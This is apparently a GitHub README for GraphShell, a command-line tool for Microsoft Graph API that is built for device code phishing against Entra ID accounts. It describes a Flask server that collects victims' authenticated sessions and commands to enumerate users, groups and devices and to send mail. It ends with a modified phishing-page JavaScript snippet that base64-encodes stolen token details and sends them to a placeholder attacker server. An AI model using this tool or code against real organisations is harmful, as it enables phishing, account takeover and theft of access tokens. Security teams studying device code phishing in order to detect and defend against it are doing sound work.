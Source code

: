 ## GraphShell: A Command-Line Tool for Microsoft Graph API Exploration
### Overview
GraphShell is a command-line not so fancy tool designed for interacting with Microsoft Graph API. Currently it facilitates many operations such as enumerating users, groups, devices, and sending emails from Entra ID ( I am lying, for some reason the mail doesn't get delivered, maybe detected as spam? ). I devloped it as I was learning and exploring Device Code Phishing and Microsoft Graph API. If you are looking for more functionality, I would recommend exploring [AADInternals](https://github.com/Gerenios/AADInternals) and [TokenTactics](https://github.com/rvrsh3ll/TokenTactics). I am sure there would be some more cool projects but I haven't explored them yet :D

### Update (05/27/2024)
It now allows interacting with multiple sessions, starting a Flask server to receive sessions (helpful during dynamic device code phishing), and performing various tasks with authenticated sessions.
![](https://raw.githubusercontent.com/dazzyddos/GraphShell/main/images/image.png)

### Features <br>
Features
- Generate device codes for authentication.
- Interact with multiple sessions.
- Start a Flask web server to handle session management.
- List and interact with sessions.
- Execute various Microsoft Graph API commands.
- Save and load sessions to/from an SQLite database.
- Check session validity and status.
- Support for SSL for the web server.

### Web Server Endpoints
- GET /start_session: Start a new session.
- POST /start_session: Start a new session with session details.
- GET /poll_session/<session_id>: Poll for session authorization status.
- POST /receive_output: Receive command output.
- POST /receive_file: Receive a file.
- POST /heartbeat: Send a heartbeat.

#### Installation and Usage
Clone the repository:
```bash
git clone https://github.com/dazzyddos/GraphShell.git
cd GraphShell
```

Install dependencies:
```bash
pip install -r requirements.txt
```

Run the tool:
```bash
python main.py
```

Generate Device Code:
```bash
>> generate_device_code
```

Authenticate:
```
The device code needs to be entered at the provided URL i.e., https://microsoft.com/devicelogin
```

Other way to use is to start the flask server which will listen for token details:
```bash
>> start_server 1337 SSL  # can be run without SSL too
```

### Dynamic Device Code Phishing
I don't need to explain what and how the device code phishing works. I would recommend reading this great [Blog Post](https://www.blackhillsinfosec.com/dynamic-device-code-phishing/) by [@rvrsh3ll](https://twitter.com/rvrsh3ll)
I am using the same [index.html](https://github.com/rvrsh3ll/Azure-App-Tools/blob/master/DynamicDeviceCodes/index.html) except with small modification below. By default he's only sending the device_code to his python tool but our tool requires the complete token details which needs to be sent after base64 encoding.
```javascript
function base64UrlEncode(str) {
        return btoa(str) // Standard Base64 encoder
            .replace(/\+/g, '-') // Convert '+' to '-'
            .replace(/\//g, '_') // Convert '/' to '_'
            .replace(/=+$/, ''); // Remove trailing '='
    }
    
// Convert the object to a JSON string
const jsonString = JSON.stringify(data)

// Base64 URL encode the JSON string
const base64EncodedData = base64UrlEncode(jsonString)
//console.log(base64EncodedData);

document.getElementById('code').innerHTML += data.message;

// Change this line to point to your listening webserver where the python code is running
$.get("https://<Server Name>:<port>/start_session?tok=" + base64EncodedData);
```



